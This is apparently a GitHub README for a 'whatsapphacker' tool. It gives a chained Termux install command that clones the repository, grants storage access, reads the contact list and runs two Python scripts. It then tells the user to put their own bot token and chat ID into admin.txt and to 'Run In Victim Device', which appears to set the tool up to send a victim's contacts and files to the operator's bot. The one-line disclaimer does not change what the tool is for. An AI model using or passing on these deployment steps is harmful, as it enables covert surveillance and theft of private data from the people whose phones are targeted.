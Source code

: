 # whatsapphacker
Use your OWN responsible.
Download Command
apt update && 
apt upgrade && 
pkg install termux-api && 
pkg install git && 
pkg install python && 
pip install base64 && 
git clone https://github.com/AloneStandLarkaAnas/whatsapphacker && 
cd whatsapphacker && 
termux-setup-storage &&
termux-contact-list &&
python main.py && python work.py

 *On Git Clone Url Paste Your Url after Fork*
 *Then Replace your Bottoken and Chat Id in admin.txt file*
 Then Run In Victim Device
